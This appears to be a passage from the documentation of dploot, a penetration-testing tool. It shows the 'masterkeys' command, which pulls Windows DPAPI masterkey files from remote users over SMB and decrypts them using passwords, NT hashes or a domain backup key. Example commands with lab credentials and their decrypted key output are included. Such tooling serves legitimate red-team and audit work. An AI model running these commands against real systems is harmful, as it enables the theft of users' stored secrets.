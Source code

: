 ## Commands

### User Triage

#### masterkeys

The **masterkeys** command will get any user masterkey file and decrypt them with `-passwords FILE` combo of user:password, `-nthashes` combo of user:nthash or a `-pvk PVKFILE` domain backup key. It will return a set of masterkey {GUID}:SHA1 mappings. Note that it will try to use password or nthash that you used to connect to the target even if you don't specify corresponding options.

*With domain backupkey*:

```text
$ dploot masterkeys waza.local/Administrator:'Password!123'@192.168.57.5 -pvk key.pvk
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found MasterKey: \\192.168.57.5\C$\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-500\927478ee-ab0e-4958-9eed-1d99f4dd851f
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\7eb68c18-1533-4448-8328-dd4e8439059a
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\dc22a574-7721-4d0e-8fbe-b1d4be93a73e
[*] Found MasterKey: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1104\34fb7a8f-13b9-45f7-9588-9be6f77513d4
[*] Found MasterKey: \\192.168.57.5\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-2004071915-2714639843-996485644-1001\bc6677c5-6403-49d1-a06b-6f03a5d13dc2
[*] Found MasterKey: \\192.168.57.5\C$\Users\scroche\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1105\ab0397f3-c1dd-4ceb-a4ee-cdb454e2a2a8

{927478ee-ab0e-4958-9eed-1d99f4dd851f}:d87445e47dc40cab8cd[...]
{7eb68c18-1533-4448-8328-dd4e8439059a}:abd03218f36ab1a8ded[...]
{dc22a574-7721-4d0e-8fbe-b1d4be93a73e}:40fc4ad7642e0fd5a25[...]
{34fb7a8f-13b9-45f7-9588-9be6f77513d4}:4237fe409ef39ad163d[...]
{ab0397f3-c1dd-4ceb-a4ee-cdb454e2a2a8}:586ad9435a925bdf613[...]
```

*With password*:

```text
$ cat passwords
jsmith:Password#123
$ dploot masterkeys waza.local/jsmith:Password#123@192.168.56.14 -passwords passwords
[*] Connected to 192.168.56.14 as waza.local\jsmith (admin)
[*] Triage ALL USERS masterkeys

[*] Found MasterKey: \\192.168.56.14\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-267175082-2660600898-836655089-1103\d305b55b-f0ca-40cf-b04c-3620aa5da427
[*] Found MasterKey: \\192.168.56.14\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-448572974-3439994363-1960186206-1001\f03e5af7-a6c0-4018-9fad-3391273952be

{d305b55b-f0ca-40cf-b04c-3620aa5da427}:6f45f9ee77014df8a68104abd0e8d5eadb3d9f22
```
